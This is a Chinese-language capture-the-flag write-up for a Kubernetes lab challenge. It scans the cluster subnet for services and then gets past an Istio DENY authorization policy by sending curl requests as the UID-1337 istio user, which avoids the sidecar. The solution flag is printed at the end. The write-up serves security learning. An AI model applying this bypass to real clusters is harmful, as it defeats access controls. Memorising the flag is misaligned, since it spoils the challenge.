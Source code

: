 # Bypassing Boundaries

:::note

The Beauty and The Ist

Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

显然，新的服务网格技术对超高级用户（root 用户）具有独特的吸引力。不要滥用这种能力；请负责任且谨慎地使用它。

:::

既然题目说了，对超高级用户有吸引力，那么先查看用户状态

```plaintext title="/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
_rpc:x:102:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/usr/sbin/nologin
istio:x:1337:1337::/home/istio:/bin/sh
player:x:1001:1001::/home/player:/bin/sh
```

同时，题目给了一份策略

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

可以看到，被限制了通过 GET 和 POST 来访问服务

先探测一下服务地址

```shell
root@wiz-k8s-lan-party:~# dnscan -subnet 10.100.0.0/16
57435 / 65536 [---------------------------------------------------------------------------------------------------------------------------------------->___________________] 87.64% 946 p/s
10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
65398 / 65536 [----------------------------------------------------------------------------------------------------------------------------------------------------------->] 99.79% 949 p/s
10.100.224.159 -> istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
65536 / 65536 [-----------------------------------------------------------------------------------------------------------------------------------------------------------] 100.00% 953 p/s
```

尝试进行访问

```shell
root@wiz-k8s-lan-party:~# curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local
RBAC: access denied
```

针对 `istio` 设立的限制，可以使用 UID 为 `1337` 的用户来绕过限制，即可以使用 `istio` 这个用户来发起请求

```shell
root@wiz-k8s-lan-party:~# su - istio -c 'curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local'
su: warning: cannot change directory to /home/istio: No such file or directory
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

即可得到答案

```flag
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```
